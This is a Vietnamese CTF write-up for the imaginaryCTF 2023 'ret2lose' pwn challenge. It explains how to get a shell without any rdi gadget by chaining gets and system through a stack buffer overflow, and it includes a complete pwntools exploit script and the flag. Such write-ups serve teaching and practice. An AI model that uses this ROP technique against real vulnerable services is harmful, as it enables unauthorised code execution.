 # RET2LOSE

## Mô tả

- Mô tả challenge.
</br>![img](/imaginaryCTF%202023/Pwn/ret2lose/assets/des.png)

- Bài cho chúng ta 2 file tương tự như bài [ret2win](/imaginaryCTF%202023/Pwn/ret2win/README.md), tuy nhiên đề bài yêu cầu ta phải lấy được shell.

- Các thông tin về lớp bảo vệ file code thì i nguyên như bài ret2win.

- Thường những bài lấy shell ở 64-bit mình sẽ cần một hoặc một vài ROPgadget để set cho thanh ghi rdi, nhưng bài này khi mình sử dụng lệnh tìm thì không thấy cái nào có ích cả. Hơn nữa phần .plt cũng chả có hàm nào ngoài gets với system. Do đó, bài này khiến mình mất khá nhiều thời gian suy nghĩ để cho ra ý tưởng.

## Ý tưởng

- Như vậy là vấn đề ở đây là làm thế nào để có thể set được thanh ghi rdi trong khi chả có cái gadget nào liên quan đến nó.

- Cách giải quyết là ta sẽ không cần dùng đến gadget nào, mà sẽ set cho vùng nhớ của địa chỉ trong thanh ghi rdi bằng một chuỗi nào đó, xong rồi ta sẽ gọi hàm system để thực hiện với đối số ta vừa ghi vào vùng nhớ trong địa chỉ mà rdi đang chứa.

- Để thực hiện được điều đó thì mình đầu tiên kiểm tra xem khi chương trình thực hiện đến lệnh ret của hàm main thì rdi sẽ chứa địa chỉ có thể đọc và ghi hay không?, nếu có thì ta sẽ ghi đè RET của hàm main bằng địa chỉ trong plt của gets, sau đó sẽ ghi đè một vài cái gadget ret để hàm system không bị sigsegv do stack alignment.

- Tiến hành kiểm tra xem rdi khi tới lệnh ret của hàm main thì sẽ có dịa chỉ như nào?
</br>![img](/imaginaryCTF%202023/Pwn/ret2lose/assets/check.png)

- Hay, vậy là rdi chứa một địa chỉ có cho phép đọc và ghi. Như vậy là cách bên trên là có khả năng thực hiện được.

- Sau khi đã send được payload đến được server, thì chương trình ở server sẽ chạy hàm gets, khi đó ta có thể nhập chuỗi "/bin/sh" chẳng hạn, khi đấy chương trình sẽ thực hiện system("/bin/sh") và ta có được shell.

## Script

- Trên thực tế thì đúng là ta đã thực hiện được cách khai thác bên trên, chỉ có điều sau khi ta nhập được chuỗi xong thì chuỗi đó sẽ bị thay đổi một chút, cụ thể là ở ô nhớ thứ 4 trong chuỗi sẽ bị giảm đi 1 đơn vị, do đó mình đã tăng 1 đơn vị cho kí tự ở vị trí đó (từ / thành 0) do đó khi mình nhập xong chuỗi "/bin0sh" thì sau lệnh gets ta sẽ có chuỗi "/bin/sh".

```python
from pwn import *

p = remote("ret2win.chal.imaginaryctf.org", 1337)
#elf = ELF("./vuln")
#p = elf.process()
#gdb.attach(p)

# install ROPgadget to use shell script command: ROPgadget --binary chal 

ret = 0x40101a

# take from .plt
gets = 0x401060
system = 0x401050

payload = b"a"*0x48 + p64(ret) + p64(gets) + p64(ret) + p64(system)
p.sendline(payload)
p.sendline(b"/bin0sh")
p.interactive()
```

## Kết quả

![img](/imaginaryCTF%202023/Pwn/ret2lose/assets/res.png)

> Flag: ictf{ret2libc?_what_libc?}